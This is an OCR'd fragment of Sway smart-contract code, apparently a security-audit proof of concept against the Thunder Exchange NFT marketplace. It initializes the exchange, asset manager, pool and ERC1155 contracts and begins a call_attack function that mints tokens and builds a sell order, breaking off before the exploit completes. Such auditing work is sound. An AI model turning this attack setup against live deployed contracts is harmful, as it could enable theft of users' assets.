 ```Sway
    call_attack();
}

fn initialize_functions() {
    //initialize all contracts 

    let thunder_exch = abi(ThunderExchange, thunder_exchange::CONTRACT_ID);
    thunder_exch.initialize();

    let asset_mngr = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_mngr.initialize();

    // required for initialize below contracts
    let exchange_contract_id = ContractId::from(thunder_exchange::CONTRACT_ID);

    let asset_manger_contract_id = ContractId::from(asset_manager::CONTRACT_ID);

    let fixed_strategy = abi(ExecutionStrategy, strategy_fixed_price_sale::CONTRACT_ID);
    fixed_strategy.initialize(exchange_contract_id);

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.initialize();

    let royalty_manager = abi(RoyaltyManager, royalty_manager::CONTRACT_ID);
    royalty_manager.initialize();

    let pool = abi(Pool, pool::CONTRACT_ID);
    pool.initialize(exchange_contract_id, asset_manger_contract_id);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    erc1155.constructor(Identity::ContractId(ContractId::this()));

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.add_strategy(ContractId::from(strategy_fixed_price_sale::CONTRACT_ID));

    let asset_manager = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_manager.add_asset(AssetId::new(ContractId::from(erc1155::CONTRACT_ID), SubId::zero()));

    thunder_exch.set_execution_manager(ContractId::from(execution_manager::CONTRACT_ID));
    thunder_exch.set_asset_manager(ContractId::from(asset_manager::CONTRACT_ID));
}

fn call_attack() {
    let thunder_exchange = ContractId::from(thunder_exchange::CONTRACT_ID);
    let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);

    let user = abi(User, user::CONTRACT_ID);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    let sub_id = 0x0000000000000000000000000000000000000000000000000000000000000001;

    erc1155.mint(Identity::ContractId(ContractId::from(user::CONTRACT_ID)), sub_id, 2);

    let payment_asset = AssetId::new(ContractId::from(erc1155::CONTRACT_ID), SubId::zero());
    let erc1155_asset = AssetId::new(ContractId::from(erc1155::CONTRACT_ID), sub_id);
    let erc1155_amount = 1;

    let mut maker_order = MakerOrderInput {
        side: Side::Sell,
        maker: Identity::ContractId(ContractId::from(user::CONTRACT_ID)),
        collection: ContractId::from(erc1155::CONTRACT_ID),
        token_id: sub_id,
        price: 1,
```